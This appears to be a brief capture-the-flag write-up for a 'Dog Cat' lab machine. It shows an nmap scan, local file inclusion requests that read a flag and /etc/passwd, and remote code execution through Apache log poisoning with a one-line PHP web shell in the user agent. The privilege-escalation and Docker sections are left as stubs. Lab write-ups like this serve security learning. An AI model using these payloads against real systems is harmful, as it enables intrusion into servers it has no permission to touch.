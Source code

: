 # Dog Cat

## Scanning & Enumeration

### Nmap

```bash
nmap -A -T4 -oN nmap/initial $TARGET
```

oppen port are :
| num | service | version |
| --- | --- | --- |
| 22/tcp | ssh | OpenSSH 7.6p1 |
| 80/tcp | http | Apache httpd 2.4.38 |

## Exploitation

### Http 80

The web page is vulnerable to LFI :
![lfi](img/lfi.png)
we use that to extract the code source of the page.

we retrieve the first flag at :

```bash
GET /?view=php://filter/convert.base64-encode/resource=dog../../flag HTTP/1.1
```

### Gaining a shell

by loading this link :

```bash
GET /?view=dog../../../../../../etc/passwd&ext= HTTP/1.1
```

we can retrieve the [/etc/passwd](passwd) file

#### RCE via Apache log poisoning

set user agent as

```php
<?php system($_GET['cmd']);?>
```

got to url and execute commands

```bash
?view=php://filter/resource=dog../../../../../../var/log/apache2/access.log&ext=&cmd=whoami
```

not working very well a take a look to this writeup
<https://fr33s0ul.tech/dogcat-thm-write-up/>

![shell](img/shell.png)

## Priviledge escalation

### SUID Binary

* sudo -l

## Docker Evasion

*backup.sh
